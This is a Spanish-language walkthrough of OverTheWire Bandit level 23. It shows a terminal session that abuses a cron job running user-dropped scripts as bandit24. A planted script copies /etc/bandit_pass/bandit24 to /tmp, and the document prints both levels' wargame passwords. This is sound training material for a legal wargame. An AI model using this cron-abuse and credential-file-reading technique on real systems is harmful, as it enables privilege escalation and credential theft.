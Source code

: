 # Level 23
## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.
**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

Un programa se ejecuta automáticamente a intervalos regulares desde **cron**, el programador de trabajos basado en el tiempo. Busque en **/etc/cron.d/** la configuración y ve qué comando se está ejecutando.
**NOTA:** Este nivel requiere que crees tu propio primer script de shell. ¡Este es un gran paso y deberías estar orgulloso de ti mismo cuando superes este nivel!
**NOTA 2:** Ten en cuenta que su script de shell se elimina una vez ejecutado, por lo que es posible que desees conservar una copia...
### Datos de Acceso al nivel
Comandos: cron, crontab, crontab(5) (use “man 5 crontab” to access this)
Usuario: bandit23
Contraseña: *QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G* (Nivel 23), *VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar* (Nivel 24)
Servidor: bandit.labs.overthewire.org
Puerto: 2220
### Solución
(Después de haber hecho lo del nivel 23)
```
bandit23@bandit:~$ cd /etc/cron.d/
bandit23@bandit:/etc/cron.d$ ls -la
total 56
drwxr-xr-x   2 root root  4096 Oct  5 06:20 .
drwxr-xr-x 106 root root 12288 Oct  5 06:20 ..
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit15_root
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit17_root
-rw-r--r--   1 root root   120 Oct  5 06:19 cronjob_bandit22
-rw-r--r--   1 root root   122 Oct  5 06:19 cronjob_bandit23
-rw-r--r--   1 root root   120 Oct  5 06:19 cronjob_bandit24
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit25_root
-rw-r--r--   1 root root   201 Jan  8  2022 e2scrub_all
-rwx------   1 root root    52 Oct  5 06:20 otw-tmp-dir
-rw-r--r--   1 root root   102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root   396 Feb  2  2021 sysstat
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
bandit23@bandit:/etc/cron.d$ mkdir /tmp/hbro
bandit23@bandit:/etc/cron.d$ cd /tmp/hbro
bandit23@bandit:/tmp/hbro$ ls
bandit24.sh
bandit23@bandit:/tmp/hbro$ nano bandit24.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.
[EN NANO]
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/hbro/pass
[GUARDAR CTRL+O Y SALIR DE NANO]
bandit23@bandit:/tmp/hbro$ chmod 77 bandit24.sh
bandit23@bandit:/tmp/hbro$ chmod 777 bandit24.sh
bandit23@bandit:/tmp/hbro$ cp bandit24.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/hbro$ chmod 777 /tmp/hbro
bandit23@bandit:/tmp/hbro$ ls
bandit24.sh  pass
bandit23@bandit:/tmp/hbro$ cat pass
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/hbro$ exit
logout
Connection to bandit.labs.overthewire.org closed.

C:\Users\gerar>ssh bandit24@bandit.labs.overthewire.org -p 2220
Enter password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
### Notas Adicionales
En este nivel se usó cron, y crontab que son herramientas que nos sirven para administrar las tareas en tiempos. Una definición de Wikipedia que ayuda a entender esto es la siguiente:
"*En el sistema operativo Unix, **cron** es un administrador regular de procesos en segundo plano (demonio) que ejecuta procesos o guiones a intervalos regulares (por ejemplo, cada minuto, día, semana o mes). Los procesos que deben ejecutarse y la hora a la que deben hacerlo se especifican en el archivo 'crontab'. El nombre _cron_ proviene del griego 
**chronos:** (χρόνος) que significa "tiempo".
**Cron** se puede definir como el equivalente a Tareas Programadas de Windows.
### Referencias
https://overthewire.org/wargames/bandit/bandit24.html